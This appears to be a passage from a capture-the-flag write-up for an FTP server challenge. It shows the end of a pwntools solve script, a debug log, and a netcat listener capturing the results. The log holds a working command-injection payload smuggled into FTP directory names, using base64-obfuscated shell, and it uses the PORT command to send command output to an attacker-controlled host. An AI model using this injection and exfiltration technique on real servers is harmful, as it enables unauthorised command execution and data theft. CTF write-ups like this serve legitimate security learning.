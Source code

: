 ```python
r.sendlineafter(b'ful\r\n', b'port xx,xx,xx,xx,pp,pp') # FIXME: edit (ip, port) to where you want to get result
r.sendlineafter(b'\r\n', b'list')

r.interactive()
r.close()
```

```
$ python3 solve.py R
remote
[+] Opening connection to nsftpd-11cea85e637049d2.d.imaginaryctf.org on port 8443: Done
[DEBUG] Sent 0x5 bytes:
    b'noop\n'
[DEBUG] Received 0x25 bytes:
    b"220 Welcome to thinxer's ftp server\r\n"
[DEBUG] Received 0x8 bytes:
    b'200 OK\r\n'
[DEBUG] Sent 0x25 bytes:
    b'rmd a;echo L2dldGZsYWc=|base64 -d|sh\n'
[DEBUG] Sent 0x5 bytes:
    b'noop\n'
[DEBUG] Received 0x12 bytes:
    b'500 Unkown error\r\n'
[DEBUG] Received 0x8 bytes:
    b'200 OK\r\n'
[DEBUG] Sent 0x25 bytes:
    b'mkd a;echo L2dldGZsYWc=|base64 -d|sh\n'
[DEBUG] Received 0x30 bytes:
    b'257 "a;echo L2dldGZsYWc=|base64 -d|sh" created\r\n'
[DEBUG] Sent 0x25 bytes:
    b'cwd a;echo L2dldGZsYWc=|base64 -d|sh\n'
[DEBUG] Received 0x1b bytes:
    b'250 CWD command sucessful\r\n'
[DEBUG] Sent 0x19 bytes:
    b'port 3,144,195,50,128,16\n'
[DEBUG] Received 0x1d bytes:
    b'200 PORT command successful\r\n'
[DEBUG] Sent 0x5 bytes:
    b'list\n'
[*] Switching to interactive mode
[DEBUG] Received 0x31 bytes:
    b'150 Opening ASCII mode data connection for LIST\r\n'

[DEBUG] Received 0x17 bytes:
    b'226 Transfer complete\r\n'

```

There is `/getflag` and `/flag.txt` with no perm. We tried `/getflag`.


```
$ nc -lnvp 32784
Listening on 0.0.0.0 32784
Connection received on 35.184.212.24 41546
total 80
drwxr-xr-x   1 root root  4096 Jul 21 08:15 .
drwxr-xr-x   1 root root  4096 Jul 21 08:15 ..
lrwxrwxrwx   1 root root     7 Feb 12 14:02 bin -> usr/bin
drwxr-xr-x   2 root root  4096 Apr 18  2022 boot
drwxr-xr-x   5 root root   360 Jul 21 08:15 dev
drwxr-xr-x   1 root root  4096 May 31 21:30 etc
----------   1 root root    43 May 31 21:20 flag.txt
-rwsr-sr-x   1 root root 16184 May 31 21:27 getflag
```